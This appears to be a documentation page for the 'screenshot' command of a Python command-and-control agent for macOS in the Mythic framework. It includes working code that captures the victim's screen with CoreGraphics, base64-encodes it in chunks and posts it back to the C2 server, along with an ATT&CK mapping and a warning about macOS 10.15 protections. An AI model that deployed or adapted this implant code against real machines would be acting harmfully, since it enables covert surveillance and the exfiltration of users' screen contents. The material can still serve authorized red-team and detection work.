 +++
title = "screenshot"
chapter = false
weight = 100
hidden = false
+++

## Summary

Use the built-in CGDisplay API calls to capture the display and send it back over the C2 channel. 

- Python Versions Supported: 2.7
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500

## Usage

```
screenshot
```

## MITRE ATT&CK Mapping

- T1113  

## Detailed Summary

This uses API calls to read the current screen the return it to Mythic. This doesn't currently capture _all_ screens though.

```Python
    def screenshot(self, task_id):
        from Cocoa import NSURL, NSBitmapImageRep
        import LaunchServices
        import Quartz
        import Quartz.CoreGraphics as CG
        region = CG.CGRectInfinite
        image = CG.CGWindowListCreateImage(region, CG.kCGWindowListOptionOnScreenOnly, CG.kCGNullWindowID, CG.kCGWindowImageDefault)
        sh_data = CG.CFDataCreateMutable(None, 0)
        dest = Quartz.CGImageDestinationCreateWithData(sh_data, LaunchServices.kUTTypePNG, 1, None)
        file_size = 0
        if(dest):
            Quartz.CGImageDestinationAddImage (dest, image, 0)
            if (Quartz.CGImageDestinationFinalize(dest)):
                file_size = CG.CFDataGetLength(sh_data)

        if(file_size) > 0:
            total_chunks = int(file_size / CHUNK_SIZE) + (file_size % CHUNK_SIZE > 0)
            data = {
                "action": "post_response", 
                "responses": [
                {
                    "task_id": task_id,
                    "total_chunks": total_chunks,
                    "file_path": str(datetime.now()),
                    "chunk_size": CHUNK_SIZE,
                    "is_screenshot": True 
                }]
            }
            initial_response = self.postMessageAndRetrieveResponse(data)
            for i in range(0,total_chunks):
                if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                    return "Job stopped."

                if i == total_chunks:
                    content = sh_data[i*CHUNK_SIZE:]
                else:
                    content = sh_data[i*CHUNK_SIZE:(i+1)*CHUNK_SIZE]
                data = {
                    "action": "post_response", 
                    "responses": [
                        {
                            "chunk_num": i+1,
                            "file_id": initial_response["responses"][0]["file_id"],
                            "chunk_data": base64.b64encode(content),
                            "task_id": task_id                        
                        }
                    ]
                }
                response = self.postMessageAndRetrieveResponse(data)

```

The screencapture is chunked and sent back to Mythic.

>**NOTE** With 10.15, there are protections against this, so be careful

